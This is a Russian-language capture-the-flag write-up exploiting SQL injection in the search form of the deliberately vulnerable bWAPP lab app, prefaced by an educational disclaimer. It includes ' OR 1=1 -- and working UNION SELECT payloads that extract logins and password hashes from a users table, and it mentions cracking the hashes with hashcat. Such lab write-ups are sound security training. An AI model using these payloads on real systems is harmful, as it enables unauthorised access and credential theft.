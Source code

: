 # SQL Injection (GET/Search)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Веб-приложение Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Приложение
---

![Hehe](images/SqliGetSearchTarget.png)

# Функциональность
---

Передача `test` для определения реакции приложения на записи, которых нет в базе данных:

![hehe](images/SqliGetSearchTest.png)

Передача `Iron Man` для наблюдения реакции приложения на запись, которая (вероятно) есть в базе данных:

![Hehe](images/SqliGetSearchFunction.png)

### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Эксплуатация
---

Передача запроса `' OR 1=1 -- ` для тестирования на уязвимость SQL-инъекции:

![hehe](images/SqliGetSearchSuccess.png)

Приложение возвращает все записи из базы данных, уязвимость подтверждена.

Теперь передача нагрузки на основе `UNION` для попытки получения данных из (вероятно существующей) таблицы `users`:

![Union search](images/SqlGetSearchUnion.png)

Это доказывает, что таблица `users` существует. Операторы возвращают разное количество столбцов.

Передача полезной нагрузки `UNION` с измененными значениями `NULL` для получения записей таблицы `users`, с увеличением количества значений `NULL` до успешного выполнения запроса:

![Union pwd](images/SqliGetSearchUnionPwd.png)

Хэшированные пароли, которые впоследствии можно взломать с помощью таких инструментов, как `hashcat`.

![Union users](images/SqliGetSearchUnionUsers.png)

### Финальные пейлоады

Получение записей хэшированных паролей:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Получение записей логинов:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```